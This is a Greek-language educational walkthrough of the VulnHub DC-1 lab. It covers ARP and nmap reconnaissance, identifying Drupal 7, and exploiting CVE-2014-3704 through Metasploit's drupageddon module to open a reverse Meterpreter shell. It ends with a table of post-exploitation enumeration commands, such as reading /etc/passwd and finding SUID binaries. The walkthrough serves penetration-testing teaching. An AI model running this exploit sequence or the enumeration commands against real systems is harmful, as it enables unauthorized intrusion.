





# Αναλυτικές Σημειώσεις — Εργαστήριο 03: DC-1

Το αρχείο αυτό είναι η **εμπλουτισμένη έκδοση** του `README.md`. Το αρχικό κείμενο (η μεθοδολογία των τεσσάρων φάσεων) διατηρείται **αυτούσιο**, και μετά από κάθε ενότητα ακολουθεί πλαίσιο *«Επεξήγηση»* που αναλύει τη θεωρία, τις εντολές και το «γιατί» πίσω από κάθε βήμα.

**Η έννοια της δοκιμής παρείσδυσης (Penetration Test)**

Μια δοκιμή παρείσδυσης είναι **ελεγχόμενη** προσομοίωση επίθεσης με σκοπό τη βελτίωση της άμυνας. Διαφέρει από μια πραγματική επίθεση σε τρία σημεία: υπάρχει **άδεια**, **όρια** (scope) και **αναφορά** (report). Το DC-1 είναι ένα εργαστηριακό μηχάνημα φτιαγμένο για αυτόν τον σκοπό.

**Οι τέσσερις φάσεις και τι παράγει η καθεμία**

| Φάση | Ερώτημα | Παραδοτέο |
| :--- | :--- | :--- |
| **1. Recon** | Τι υπάρχει στο δίκτυο και τι τρέχει; | Λίστα hosts, θυρών, εκδόσεων |
| **2. Exploitation** | Ποια ευπάθεια αξιοποιείται; | Πρόσβαση (shell) |
| **3. Post-exploitation** | Τι βλέπω από μέσα; | Δεδομένα, flags, διαδρομές |
| **4. Privilege escalation** | Πώς γίνομαι root; | Πλήρης έλεγχος |

**Τι θα μάθετε:** γιατί το ARP discovery είναι πιο αξιόπιστο από το ping, πώς διαβάζεται πλήρης σάρωση 65.535 θυρών, πώς λειτουργεί το Metasploit ως «πλαίσιο» και όχι ως μαγικό κουμπί, τι είναι το Meterpreter και γιατί ένα «τυφλό» shell δεν αρκεί, και πώς ένα λάθος δικαίωμα (SUID σε ένα εργαλείο όπως το `find`) δίνει root.

---

# Εργαστηριακό Εγχειρίδιο: Μηχανή DC-1

Το παρόν εγχειρίδιο είναι ένας οδηγός διεξαγωγής δοκιμών παρείσδυσης (Penetration Testing Walkthrough) στην ευάλωτη εικονική μηχανή **DC-1**. Ο κύριος στόχος της εργαστηριακής αυτής άσκησης είναι η καθοδήγηση του ερευνητή ή του ελεγκτή ασφάλειας μέσα από έναν ρεαλιστικό κύκλο ζωής αξιολόγησης τρωτότητας, ακολουθώντας πιστά τις διεθνείς βέλτιστες πρακτικές.

Μέσα από τη μελέτη της μηχανής DC-1 εξετάζονται σε βάθος κρίσιμες έννοιες της ασφάλειας πληροφοριακών συστημάτων, όπως η αναγνώριση επιφανειών επίθεσης στο τοπικό δίκτυο, η ανάλυση και εκμετάλλευση γνωστών αρχιτεκτονικών σφαλμάτων σε Συστήματα Διαχείρισης Περιεχομένου (Content Management Systems - CMS), η σταθεροποίηση κελύφους και η μετα-εκμετάλλευση υποδομών Linux, καθώς και η εκμετάλλευση εσφαλμένων διαμορφώσεων δικαιωμάτων πρόσβασης (misconfigurations) στο σύστημα αρχείων Unix για την επίτευξη τοπικής κλιμάκωσης προνομίων (Local Privilege Escalation).

> **Πηγή / Λήψη:** [VulnHub — DC: 1](https://www.vulnhub.com/entry/dc-1,292/) · **Writeup αναφοράς:** [Hacking Articles — DC-1: Vulnhub Walkthrough](https://www.hackingarticles.in/dc-1-vulnhub-walkthrough/)

Η συνολική διαδικασία δομείται στις ακόλουθες τέσσερις μεθοδολογικές φάσεις:
1. **Αναγνώριση & Χαρτογράφηση Δικτύου (Reconnaissance & Service Fingerprinting)**
2. **Ανάλυση Ευπαθειών & Αρχική Προσβολή (Vulnerability Assessment & Weaponized Exploitation)**
3. **Μετα-Εκμετάλλευση, Σταθεροποίηση & Περισυλλογή Ενδείξεων (Post-Exploitation & Data Harvesting)**
4. **Ανάλυση Εσωτερικών Δικαιωμάτων & Κλιμάκωση Προνομίων (Privilege Escalation to Root)**

---

## 2. Φάση 1: Αναγνώριση & Ανακάλυψη Υπηρεσιών (Reconnaissance & Discovery)


### Επεξήγηση Φάσης 1 — γιατί η αναγνώριση γίνεται μεθοδικά

Η αναγνώριση χωρίζεται σε **παθητική** (δεν αγγίζει τον στόχο: OSINT, αρχεία, DNS records) και **ενεργητική** (στέλνει πακέτα). Στο εργαστήριο κάνουμε ενεργητική, γιατί ο στόχος είναι τοπικός και δικός μας.

**Σειρά που δεν αποτυγχάνει:**

```
1. Ποια είναι η IP μου;        ip a
2. Ποιοι hosts υπάρχουν;       netdiscover / arp-scan
3. Ποιες θύρες ακούν;          nmap -p-
4. Ποιες εκδόσεις;             nmap -sV
5. Τι εκθέτει η εφαρμογή;      browser + curl + fuzzing
```

Το λάθος των αρχαρίων είναι να ξεκινούν από το βήμα 4 ή 5 «επειδή έτσι είδαν σε writeup». Χωρίς τα βήματα 1–3, δεν ξέρετε καν αν μιλάτε στο σωστό μηχάνημα.

### 2.1 Διαμόρφωση Περιβάλλοντος Δοκιμών & Αρχιτεκτονική Δικτύου


#### Επεξήγηση 2.1 — γιατί η απομόνωση είναι τεχνική απαίτηση, όχι τυπικότητα

**Host-Only vs NAT Network** — τι αλλάζει για το εργαστήριο:

| | Host-Only | NAT Network |
| :--- | :--- | :--- |
| Kali ↔ DC-1 | ✅ | ✅ |
| Πρόσβαση στο internet | ❌ | ✅ (μέσω host) |
| Κίνδυνος διαρροής σε πραγματικό δίκτυο | Μηδενικός | Μηδενικός (πίσω από NAT) |
| Ενημερώσεις/λήψεις εργαλείων | Πρέπει να γίνουν πριν | Γίνονται κανονικά |

**Γιατί «Black-Box»:** ο ελεγκτής δεν γνωρίζει εκ των προτέρων την IP. Αυτό είναι ρεαλιστικό: σε πραγματικό engagement συχνά ξεκινάτε μόνο με ένα εύρος δικτύου.

**Έλεγχος ότι το περιβάλλον είναι σωστό πριν προχωρήσετε:**

```bash
ip a                          # έχετε IP στο ίδιο subnet με τον στόχο;
ping -c 2 <IP-στόχου>         # αν όχι, δείτε §2.2 (ARP)
```

**Σημείωση για VMware/VirtualBox:** αν και οι δύο VMs είναι σε NAT Network, το `netdiscover` βλέπει μόνο τις VMs του ίδιου δικτύου — όχι το φυσικό σας LAN. Αυτό είναι το επιθυμητό.

Προκειμένου να διασφαλιστεί η ασφαλής και αξιόπιστη εκτέλεση της δοκιμής, τόσο ο σταθμός εργασίας του επιτιθέμενου (Kali Linux) όσο και το ευάλωτο μηχάνημα-στόχος (DC-1) τοποθετούνται εντός ενός ελεγχόμενου, απομονωμένου εικονικού δικτύου (λειτουργία Host-Only ή κοινό NAT Network μέσω λογισμικού υπερεπόπτη VirtualBox / VMware Workstation). Η αρχιτεκτονική αυτή εγγυάται ότι η εκπαιδευτική επίθεση δεν θα διαρρεύσει σε παραγωγικά εταιρικά ή οικιακά δίκτυα, ενώ ταυτόχρονα εξασφαλίζει αμφίδρομη, απρόσκοπτη διασύνδεση στα επίπεδα OSI Layer 2 (Data Link) και Layer 3 (Network).

Σε ένα τυπικό σενάριο ελέγχου διείσδυσης τύπου "Black-Box", ο ελεγκτής δεν γνωρίζει εκ των προτέρων τη στατική ή δυναμική διεύθυνση IPv4 του στόχου, καθώς αυτή αποδίδεται αυτόματα από την ενσωματωμένη υπηρεσία DHCP του εικονικού περιβάλλοντος. Συνεπώς, η πρώτη απαραίτητη ενέργεια είναι ο εντοπισμός του μηχανήματος-στόχου μέσω τεχνικών παθητικής ή ενεργητικής σάρωσης σε επίπεδο τοπικού δικτύου.

### 2.2 Ανακάλυψη Ενεργών Κόμβων μέσω του Πρωτοκόλλου ARP


#### Επεξήγηση 2.2 — το ARP ως «αναγκαστικός» μηχανισμός

Το **ARP** (Address Resolution Protocol) απαντά στο ερώτημα: *«ποια MAC αντιστοιχεί σε αυτή την IP;»*. Είναι απαραίτητο για κάθε επικοινωνία σε Ethernet — χωρίς αυτό δεν φεύγει ούτε ένα πακέτο. Γι' αυτό **δεν μπορεί να «απενεργοποιηθεί»** όπως το ICMP: ένα firewall που μπλοκάρει ARP θα απομονώσει το μηχάνημα από το ίδιο του το δίκτυο.

**Τι βλέπετε στην εικόνα `image.png`:**

```
16 Captured ARP Req/Rep packets, from 4 hosts
192.168.35.1    00:50:56:c0:00:08   VMware, Inc.   ← gateway του NAT
192.168.35.2    00:50:56:ed:1b:b2   VMware, Inc.   ← DHCP/DNS του NAT
192.168.35.131  00:0c:29:65:4d:49   VMware, Inc.   ← Ο ΣΤΟΧΟΣ (DC-1)
192.168.35.254  00:50:56:e9:05:dc   VMware, Inc.   ← gateway/άλλη VM
```

**Πώς ξεχωρίζετε τον στόχο:** το `.1`, `.2` και `.254` είναι τυπικές διευθύνσεις υποδομής (gateway, DNS). Ο στόχος είναι συνήθως μια «τυχαία» διεύθυνση στη μέση του εύρους — εδώ η `.131`.

**Γιατί εμφανίζεται «Count 13» στο gateway:** το `netdiscover` έχει ήδη ανταλλάξει πακέτα μαζί του (είναι ο δρομολογητής). Οι υπόλοιποι έχουν Count 1 — μία απάντηση.

**Εναλλακτικές:** `arp-scan --localnet`, `nmap -sn 192.168.35.0/24`, ή παθητική ακρόαση (`netdiscover -p`) που δεν στέλνει τίποτα και βασίζεται σε broadcast κίνηση.

Η ανίχνευση ενεργών υπολογιστικών συστημάτων στο τοπικό υποδίκτυο βασίζεται κυρίως στην αποστολή αιτημάτων ARP (*Address Resolution Protocol*). Σε αντίθεση με τις παραδοσιακές σαρώσεις ICMP Echo Requests (γνωστές ως "ping"), οι οποίες συχνά φιλτράρονται ή απορρίπτονται σιωπηρά από τα τοπικά τείχη προστασίας (iptables, nftables κ.λπ.), τα πακέτα ARP είναι υποχρεωτικά για την επικοινωνία σε επίπεδο Ethernet. Κάθε ενεργός κόμβος του ίδιου broadcast domain υποχρεούται εκ κατασκευής από το πρωτόκολλο να αποκριθεί με τη διεύθυνση MAC του, καθιστώντας τον εντοπισμό του αλάνθαστο.

```bash
sudo netdiscover -r 192.168.35.0/24
```
* `sudo`: Εκτελεί το εργαλείο με αυξημένα προνόμια υπερχρήστη (`root`), τα οποία είναι αυστηρά υποχρεωτικά καθώς απαιτείται άμεση πρόσβαση στη δικτυακή διεπαφή (raw socket access) για τη δημιουργία και αποστολή μη επεξεργασμένων πακέτων ARP.
* `netdiscover`: Εξειδικευμένο εργαλείο ανίχνευσης διευθύνσεων σε τοπικά δίκτυα Ethernet, ικανό να λειτουργεί τόσο σε παθητική ακρόαση όσο και σε ενεργητική λειτουργία μαζικής αποστολής ARP queries.
* `-r 192.168.35.0/24`: Ορίζει το εύρος του υπό εξέταση υποδικτύου IPv4 σε συμβολισμό CIDR (*Classless Inter-Domain Routing*). Το πρόγραμμα αποστέλλει σειριακά ή παράλληλα ARP requests για όλες τις 254 πιθανές διευθύνσεις του εύρους (`192.168.35.1` έως `192.168.35.254`), συλλέγοντας και ταξινομώντας τις απαντήσεις σε πραγματικό χρόνο.



*Εικόνα 1 — Εντοπισμός Ενεργών Κόμβων στο Τοπικό Υποδίκτυο με Netdiscover*

### 2.3 Πλήρης Σάρωση Θυρών και Αναγνώριση Υπηρεσιών (Deep Service Fingerprinting)


#### Επεξήγηση 2.3 — γιατί `-p-` και τι σημαίνει «service fingerprint»

**Γιατί όλες οι θύρες:** το προεπιλεγμένο nmap ελέγχει τις 1.000 πιο συνηθισμένες. Υπηρεσίες διαχείρισης (π.χ. Tomcat στο 8080, εναλλακτικά SSH στο 2222, βάσεις σε 3306/5432) συχνά «κρύβονται» έξω από αυτό το σύνολο. Το `-p-` = `-p 1-65535`.

**Διαβάζοντας την έξοδο της εικόνας `image-1.png`:**

```
22/tcp    open  ssh       OpenSSH 6.0p1 Debian 4+deb7u7
80/tcp    open  http      Apache httpd 2.2.22 ((Debian))
111/tcp   open  rpcbind   2-4 (RPC #100000)
51976/tcp open  status    1 (RPC #100024)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

| Στοιχείο | Τι μας λέει |
| :--- | :--- |
| `OpenSSH 6.0p1 Debian 4+deb7u7` | **Debian 7 (Wheezy)** — κυκλοφόρησε 2013, end-of-life: παλιό σύστημα |
| `Apache httpd 2.2.22` | Παλιά έκδοση Apache → πιθανές γνωστές ευπάθειες |
| `CPE: cpe:/o:linux:linux_kernel` | Ταυτοποίηση για βάσεις CVE |

**Η σκέψη που πρέπει να κάνετε:** «Debian Wheezy + Apache 2.2» = σύστημα που δεν ενημερώνεται εδώ και χρόνια. Άρα το επόμενο βήμα είναι να δείτε **τι εφαρμογή** τρέχει πάνω του — και εκεί εμφανίζεται το Drupal.

**Χρόνος εκτέλεσης:** το `-p-` με `-sV` μπορεί να πάρει λεπτά. Σε πραγματικό engagement χρησιμοποιείται πρώτα γρήγορη σάρωση (`-p- --min-rate 1000`) και μετά στοχευμένο `-sV` στις ανοιχτές.

**Προσοχή:** η πλήρης σάρωση είναι «θορυβώδης» — καταγράφεται από IDS. Σε εργαστήριο δεν μας νοιάζει· σε παραγωγή ναι.

Μετά την επιβεβαίωση της διεύθυνσης IP του στόχου (`192.168.35.131`), απαιτείται λεπτομερής χαρτογράφηση των ανοικτών θυρών TCP και εξαγωγή των χαρακτηριστικών banners των εκτελούμενων υπηρεσιών. Η επιφανειακή σάρωση μόνο των 1.000 πιο συνηθισμένων θυρών (default Nmap scan) ενέχει τον κίνδυνο παράβλεψης κρίσιμων υπηρεσιών που εκτελούνται σε ασυνήθιστες ή υψηλές θύρες. Για τον λόγο αυτό, επιλέγεται η εξαντλητική σάρωση ολόκληρου του φάσματος των 65.535 θυρών.

```bash
nmap -sV -p- 192.168.35.131
```


*Εικόνα 2 — Αναλυτική Έξοδος Σάρωσης Υπηρεσιών μέσω Nmap*

* `nmap`: Network Mapper, το διεθνώς αναγνωρισμένο εργαλείο ελέγχου δικτυακών δεικτών, χαρτογράφησης τοπολογίας και ανάλυσης ευπαθειών.
* `-sV` (*Service Version Detection*): Ενεργοποιεί τον μηχανισμό διερεύνησης εκδόσεων. Το Nmap εκτελεί TCP handshake στις ανοικτές θύρες, αποστέλλει εξειδικευμένες σειρές δεδομένων (probes) από τη βάση δεδομένων `nmap-service-probes` και αναλύει τις αποκρίσεις για να ταυτοποιήσει με ακρίβεια το όνομα και την έκδοση της κάθε εφαρμογής.
* `-p-`: Συντομογραφία της παραμέτρου `-p 1-65535`. Εξαναγκάζει τον έλεγχο κάθε μίας από τις 65.535 διαθέσιμες θύρες TCP, εκμηδενίζοντας την πιθανότητα απόκρυψης υπηρεσιών σε μη τυπικές θύρες.
* `192.168.35.131`: Η διεύθυνση IPv4 του συστήματος-στόχου που προέκυψε από το προηγούμενο βήμα.

### 2.4 Επιθεώρηση Εφαρμογής Ιστού & Πρώιμη Αξιολόγηση Ευπαθειών


#### Επεξήγηση 2.4 — πώς αναγνωρίζεται ένα CMS και γιατί η έκδοση μετράει

**Σημεία ταυτοποίησης Drupal** (ισχύουν και για WordPress/Joomla):

| Σημείο | Τι δείχνει |
| :--- | :--- |
| `/CHANGELOG.txt` | Ακριβής έκδοση (αν δεν έχει αφαιρεθεί) |
| `<meta name="Generator" content="Drupal 7">` | CMS και major version |
| `/sites/default/settings.php` | Αρχείο ρυθμίσεων (αν είναι προσβάσιμο) |
| Δομή URL `/node/1`, `/user/login` | Χαρακτηριστικά Drupal |
| Cookies `SESS…`, `Drupal.toolbar` | Ενδείξεις Drupal |

**Γιατί η έκδοση 7.x είναι κρίσιμη:** το Drupal 7 είχε σοβαρές ευπάθειες SQL injection στη φόρμα σύνδεσης/εγγραφής. Η πιο γνωστή είναι η **CVE-2014-3704** («Drupalgeddon»), με CVSS **9.8**. Επηρεάζει εκδόσεις 7.0–7.31.

**Τι είναι το CVSS:** πρότυπο βαθμολόγησης σοβαρότητας 0–10, με βάση:

* **Attack Vector** (δικτυακή ή τοπική;),
* **Complexity** (πόσο εύκολο;),
* **Privileges required** (χρειάζεται λογαριασμός;),
* **Impact** (εμπιστευτικότητα, ακεραιότητα, διαθεσιμότητα).

Ένα `9.8` σημαίνει: απομακρυσμένη, χωρίς authentication, χωρίς ιδιαίτερη πολυπλοκότητα, με πλήρη επίπτωση — δηλαδή «οποιοσδήποτε στο δίκτυο μπορεί να πάρει κώδικα».

**Τι θα έπρεπε να κάνει ο διαχειριστής:** ενημέρωση σε υποστηριζόμενη έκδοση, αφαίρεση `CHANGELOG.txt`, WAF με κανόνες για SQLi, και περιορισμός πρόσβασης στη διαχείριση.

Η ανάλυση της θύρας 80 υποδεικνύει την ύπαρξη διακομιστή Apache σε περιβάλλον λειτουργικού συστήματος Debian Wheezy (7.x), γεγονός που καταδεικνύει ένα σημαντικά παρωχημένο σύστημα. Πλοηγούμενοι μέσω φυλλομετρητή (browser) στη διεύθυνση `http://192.168.35.131/`, παρουσιάζεται η αρχική σελίδα του δημοφιλούς Συστήματος Διαχείρισης Περιεχομένου (**Drupal**). 

Η επιθεώρηση του πηγαίου κώδικα της ιστοσελίδας, των μετα-ετικετών (meta tags) και των αρχείων όπως το `/CHANGELOG.txt` αποκαλύπτει ότι πρόκειται για την έκδοση **Drupal 7.x**. Ιστορικά, ο κλάδος Drupal 7.x παρουσίασε θεμελιώδη αρχιτεκτονικά κενά ασφαλείας στα επίπεδα διαχείρισης παραμέτρων εισόδου και εκτέλεσης ερωτημάτων βάσης δεδομένων, με διαβόητο παράδειγμα την ευπάθεια Drupalgeddon (CVE-2014-3704), η οποία επιτρέπει σε μη εξουσιοδοτημένους απομακρυσμένους χρήστες να εκτελέσουν αυθαίρετο κώδικα (Remote Code Execution - RCE).

---

## 3. Φάση 2: Ανάλυση Ευπαθειών & Αρχική Προσβολή (Exploitation)


### Επεξήγηση Φάσης 2 — η μετάβαση από «ξέρω» σε «μπορώ»

Η εκμετάλλευση είναι το πιο «επικίνδυνο» στάδιο: μια λάθος ενέργεια μπορεί να καταστρέψει δεδομένα ή να ρίξει την υπηρεσία. Γι' αυτό σε πραγματικό engagement:

1. **Επιβεβαιώνεται** η ευπάθεια με μη καταστροφικό τρόπο (π.χ. έλεγχος έκδοσης).
2. **Επιλέγεται** το λιγότερο επεμβατικό exploit.
3. **Καταγράφεται** ακριβώς τι εκτελέστηκε (για το report).
4. **Ελέγχεται** αν η ενέργεια επηρέασε άλλους (π.χ. shared hosting).

### 3.1 Εκκίνηση και Προετοιμασία του Metasploit Framework


#### Επεξήγηση 3.1 — τι είναι το Metasploit και τι ΔΕΝ είναι

Το **Metasploit Framework (MSF)** είναι μια πλατφόρμα που οργανώνει:

| Έννοια | Ρόλος |
| :--- | :--- |
| **Module** | Ο κώδικας (exploit, auxiliary, post) |
| **Payload** | Τι εκτελείται στον στόχο μετά την επιτυχία (π.χ. reverse shell) |
| **Handler** | Ο ακροατής που περιμένει τη σύνδεση πίσω |
| **Session** | Η ενεργή σύνδεση με τον στόχο |
| **Database** | Αποθήκευση hosts, services, credentials, loot |

**Η εκκίνηση (`msfconsole`)** φορτώνει χιλιάδες modules και συνδέεται στην PostgreSQL. Χωρίς βάση δεδομένων δουλεύει, αλλά δεν «θυμάται» αποτελέσματα (`db_nmap`, `hosts`, `services`).

**Χρήσιμες εντολές πριν το exploit:**

```
msf6 > db_status              # υπάρχει βάση;
msf6 > search drupal          # εύρεση modules
msf6 > info <module>          # περιγραφή, επιλογές, references
msf6 > show options           # τι πρέπει να συμπληρώσω
msf6 > show payloads          # συμβατά payloads
```

**Γιατί δεν είναι «κουμπί»:** χωρίς σωστό `RHOSTS`, `LHOST` (η *δική* μας IP) και `LPORT`, το payload θα προσπαθήσει να συνδεθεί σε λάθος διεύθυνση. Το `LHOST` πρέπει να είναι η IP της κάρτας που βλέπει τον στόχο — κλασικό λάθος σε VMs με πολλές διεπαφές.

**Στην εικόνα `image-2.png`:** φαίνεται η έκδοση (`metasploit v6.4.103-dev`) και το πλήθος modules — 2.584 exploits. Το πλήθος δεν σημαίνει «περισσότερη δύναμη», σημαίνει «περισσότερο υλικό για εκμάθηση».

Για τη συστηματοποίηση και εκτέλεση της επίθεσης αξιοποιείται το **Metasploit Framework**, η πιο διαδεδομένη πλατφόρμα δοκιμών διείσδυσης. Το Metasploit παρέχει μια ολοκληρωμένη υποδομή διαχείρισης exploits, payloads, encoders και βοηθητικών εργαλείων, επιτρέποντας την αυτοματοποιημένη επαλήθευση των κενών ασφαλείας με σταθερό και προβλέψιμο τρόπο.

```bash
msfconsole
```

* `msfconsole`: Εκκινεί τη διαδραστική διεπαφή γραμμής εντολών (Command-Line Interface) του Metasploit. Κατά την εκκίνηση, το περιβάλλον αρχικοποιεί τις συνδέσεις με την υποκείμενη βάση δεδομένων PostgreSQL, φορτώνει χιλιάδες καταγεγραμμένα modules ευπαθειών στη μνήμη RAM και παρέχει ένα ευέλικτο κέλυφος διαχείρισης επιθέσεων.


*Εικόνα 3 — Εκκίνηση της Διεπαφής msfconsole*

### 3.2 Αναζήτηση Εξειδικευμένων Modules για το CMS Drupal


#### Επεξήγηση 3.2 — διαβάζοντας τον πίνακα αποτελεσμάτων

Η εικόνα `image-3.png` δείχνει την έξοδο του `search drupal`. Οι στήλες που μετράνε:

| Στήλη | Σημασία |
| :--- | :--- |
| **Disclosure Date** | Πότε δημοσιεύτηκε η ευπάθεια |
| **Rank** | Αξιοπιστία module (`excellent` > `great` > `good` > `normal`) |
| **Check** | Αν το module μπορεί να **επιβεβαιώσει** την ευπάθεια χωρίς εκτέλεση |
| **Description** | Τι ακριβώς εκμεταλλεύεται |

**Τα τρία Drupal modules που ξεχωρίζουν:**

* `exploit/multi/http/drupal_drupageddon` (2014) — **η ευπάθεια του εργαστηρίου** (CVE-2014-3704), SQLi στη φόρμα.
* `exploit/unix/webapp/drupal_drupalgeddon2` (2018) — CVE-2018-7600, επηρεάζει 7.x **και** 8.x· άλλη ευπάθεια.
* `exploit/unix/webapp/drupal_coder_exec` — μέσω του module Coder.

**Γιατί διαβάζουμε το `info` πριν το `use`:** το `info` δείχνει τις **ακριβείς εκδόσεις** που επηρεάζονται. Αν ο στόχος είναι 7.32, το drupageddon (7.0–7.31) **δεν θα δουλέψει** — και δεν πρέπει να το «δοκιμάσουμε τυφλά».

**Χρήσιμο φίλτρο:**

```
msf6 > search type:exploit platform:php drupal
msf6 > search cve:2014-3704
```

Με το περιβάλλον του Metasploit έτοιμο προς χρήση, πραγματοποιείται ερώτημα στην ενσωματωμένη ευρετηριασμένη βάση δεδομένων προκειμένου να εντοπιστούν όλα τα διαθέσιμα modules εκμετάλλευσης που στοχεύουν την πλατφόρμα Drupal.

```bash
msf6 > search drupal
```

* `search drupal`: Αναζητά αναδρομικά στις βιβλιοθήκες `exploits/`, `auxiliary/` και `post/` οποιοδήποτε module περιέχει τον όρο "drupal" στον τίτλο, στην περιγραφή ή στα μεταδεδομένα του. Το αποτέλεσμα παρουσιάζει έναν πίνακα με το όνομα του module, την ημερομηνία αποκάλυψης της ευπάθειας, τον δείκτη αξιοπιστίας (Ranking) και μια σύντομη περιγραφή του μηχανισμού επίθεσης.


*Εικόνα 4 — Πίνακας Αποτελεσμάτων Αναζήτησης Drupal Modules*

### 3.3 Επιλογή Module, Παραμετροποίηση & Εκτέλεση της Επίθεσης


#### Επεξήγηση 3.3 — πώς λειτουργεί τεχνικά το Drupalgeddon

**Η αιτία (root cause):** το Drupal 7 χρησιμοποιεί το *Database Abstraction Layer* (DBAL). Σε ορισμένες συναρτήσεις, το **όνομα του πίνακα** περνούσε στον SQL query χωρίς έλεγχο. Τα prepared statements προστατεύουν τις **τιμές**, όχι τα **ονόματα αντικειμένων** — και εκεί ήταν το κενό.

**Το αποτέλεσμα:** ένας μη πιστοποιημένος χρήστης μπορεί να στείλει ειδικά διαμορφωμένο αίτημα στη φόρμα και να εκτελέσει αυθαίρετο SQL. Από εκεί, με `INSERT` σε πίνακα του Drupal, μπορεί να φυτέψει PHP κώδικα που εκτελείται από τον Apache.

**Η ακολουθία του Metasploit:**

```
use exploit/multi/http/drupal_drupageddon
set RHOSTS 192.168.35.131     ← ο στόχος
set LHOST 192.168.35.129      ← εμείς (Kali)
set LPORT 4444                ← θύρα ακρόασης
exploit
```

**Τι συμβαίνει στα παρασκήνια (εικόνα `image-7.png`):**

1. `Started reverse TCP handler on 192.168.35.129:4444` — ανοίγει ακροατής.
2. `Sending stage (41224 bytes)` — στέλνεται το payload.
3. `Meterpreter session 1 opened (… → 192.168.35.131:34255)` — ο στόχος συνδέεται **πίσω** σε εμάς.

**Γιατί reverse shell και όχι bind shell:** το reverse βγαίνει από τον στόχο προς εμάς, οπότε περνά firewalls που επιτρέπουν εξερχόμενη κίνηση (η συνηθισμένη ρύθμιση).

**Αν αποτύχει:** ελέγξτε `LHOST` (σωστή διεπαφή;), firewall στο Kali, αν ο Apache μπορεί να εκτελέσει PHP (`php -v` στον στόχο), και αν η έκδοση είναι πράγματι ευάλωτη (`/CHANGELOG.txt`).

Από τα αποτελέσματα επιλέγεται το module `exploit/multi/http/drupal_drupageddon`. Η ευπάθεια αυτή (**CVE-2014-3704**) εδράζεται στο API αφαίρεσης βάσεων δεδομένων (Database Abstraction API) του Drupal 7.x, το οποίο δεν εξυγίανε επαρκώς τις παραμέτρους πινάκων που περνούσαν σε προπαρασκευασμένα ερωτήματα SQL (prepared statements). 


*Εικόνα 5 — `use exploit/multi/http/drupal_drupageddon`: αυτόματη επιλογή payload `php/meterpreter/reverse_tcp`.*

Αυτό επιτρέπει σε έναν μη πιστοποιημένο απομακρυσμένο επιτιθέμενο να εκτελέσει SQL Injection, μέσω της οποίας μπορεί να τροποποιήσει διαχειριστικούς πίνακες, να εισαγάγει κακόβουλες εντολές PHP στη βάση ή να επιτύχει απευθείας εκτέλεση αυθαίρετου κώδικα στο λειτουργικό σύστημα (Remote Code Execution - RCE).

```bash
msf6 > use exploit/multi/http/drupal_drupageddon
msf6 exploit(multi/http/drupal_drupageddon) > set RHOSTS 192.168.35.131
msf6 exploit(multi/http/drupal_drupageddon) > exploit
```

* `use exploit/multi/http/drupal_drupageddon`: Φορτώνει στο ενεργό περιβάλλον εργασίας το συγκεκριμένο exploit module, διαμορφώνοντας αυτόματα το προεπιλεγμένο συμβατό ωφέλιμο φορτίο (payload), συνήθως το `php/meterpreter/reverse_tcp`.
 * `set RHOSTS 192.168.35.131`: Καθορίζει τη μεταβλητή συστήματος `RHOSTS` (*Remote Hosts*), δηλώνοντας τη διεύθυνση IPv4 του ευάλωτου διακομιστή-στόχου.
 * `exploit` (ή εναλλακτικά `run`): Εκκινεί τη διαδικασία της επίθεσης. Το Metasploit στήνει έναν τοπικό ακροατή (handler) στη μηχανή Kali, διαμορφώνει τα κακόβουλα HTTP POST αιτήματα με το SQL Injection payload και το αντίστροφο PHP κέλυφος, και τα αποστέλλει στον στόχο. Μόλις ο κώδικας εκτελεστεί από τον διακομιστή Apache, ο στόχος συνδέεται πίσω στο Kali Linux ανοίγοντας μια ενεργή συνεδρία Meterpreter.


*Εικόνα 6 — Ορισμός του στόχου με `set RHOSTS 192.168.35.131`.*



*Εικόνα 7 — Επιτυχής Εκμετάλλευση και Άνοιγμα Συνεδρίας Meterpreter*

---

## 4. Φάση 3: Μετα-Εκμετάλλευση & Περισυλλογή Ενδείξεων (Post-Exploitation)


### Επεξήγηση Φάσης 3 — από «έχω σύνδεση» σε «έχω πληροφορία»

Μετά την απόκτηση πρόσβασης, η δουλειά είναι **απαρίθμηση από μέσα**:

| Τι ψάχνουμε | Εντολή/Σημείο |
| :--- | :--- |
| Ταυτότητα χρήστη | `id`, `whoami` |
| Δικαιώματα sudo | `sudo -l` |
| Αρχεία config με credentials | `find / -name "settings.php" -o -name "wp-config.php"` |
| Άλλοι χρήστες | `cat /etc/passwd` |
| Cron jobs (privesc) | `cat /etc/crontab`, `ls /etc/cron.*` |
| SUID binaries | `find / -perm -u=s -type f 2>/dev/null` |
| Πρόσβαση σε δίκτυο | `ss -tuln`, `ip a` |

**Κανόνας:** μην «τρέχετε exploit hunter» αυτόματα πριν καταλάβετε το σύστημα. Η χειροκίνητη απαρίθμηση δίνει κατανόηση — και συχνά βρίσκει πράγματα που τα αυτόματα εργαλεία χάνουν.

